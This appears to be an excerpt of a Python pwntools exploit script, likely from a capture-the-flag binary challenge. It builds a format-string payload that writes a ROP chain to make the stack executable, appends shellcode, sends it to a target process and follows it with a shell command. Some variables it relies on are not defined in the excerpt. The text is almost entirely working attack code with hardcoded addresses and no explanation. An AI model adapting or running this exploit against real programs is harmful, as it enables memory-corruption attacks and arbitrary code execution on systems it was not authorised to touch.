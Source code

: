 ```python

popRdiRet = codeReferToReal(0x7ffff7f38cd2)
ret = codeReferToReal(0x7ffff7f38cd3)
popRdxRet = codeReferToReal(0x7ffff7f38bdf)
popRdiRbpRet = codeReferToReal(0x7ffff7f3ab1b)
popRsiRet = codeReferToReal(0x7ffff7f4681e)

libcStackEndAddress = stackReferToReal(0x7fffffffd318)
makeStackExecutable = codeReferToReal(0x7ffff7fbabb0)

putcharAddress = codeReferToReal(0x7ffff7f504a0)
testFunctionAddress = codeReferToReal(0x7ffff7f39139)

addressTargetValue = {
    # rdi -> __libc_stack_end
    returnAddress: popRdiRbpRet,
    # returnAddress + 8:
    returnAddress + 8: stackEndPointer,
    # rdx = 7
    returnAddress + 16: 0,
    returnAddress + 24: popRdxRet,
    returnAddress + 32: 7,
    # rsi = _dl_pagesize = 4096
    returnAddress + 40: popRsiRet,
    returnAddress + 48: 4096,
    # call make_stack_executable+17
    returnAddress + 56: makeStackExecutable + 17,
    # returnAddress + 56: putcharAddress,
    returnAddress + 64: shellCodeAddress,
}

for address, value in addressTargetValue.items():
    ic(hex(address), hex(value))

context.bits = 64
payload3 = fmtstr_payload(34, addressTargetValue, write_size='short')

ic(len(payload3))
assert len(payload3) <= shellcodeOffset
assert len(shellCode) <= endAddressOffset

payload3 += b' ' * (shellcodeOffset - len(payload3))
payload3 += shellCode
payload3 += b' ' * (shellcodeOffset + endAddressOffset - len(payload3))
payload3 += libcStackEndAddress.to_bytes(8, 'little')
ic(len(payload3))
assert len(payload3) < 1024

assert not b'\n' in payload3

print(payload3)
ic(len(payload3))
sh.sendlineafter(b'Please input your instruction:\n', payload3)

payload4 = b'ls -al'

payload = payload1 + b'\n' + payload2 + b'\n' + payload3 + b'\n' + payload4 + b'\n'

with open('payload', 'wb') as f:
    f.write(payload)

receiveLine = sh.recvline()
ic(len(receiveLine))
```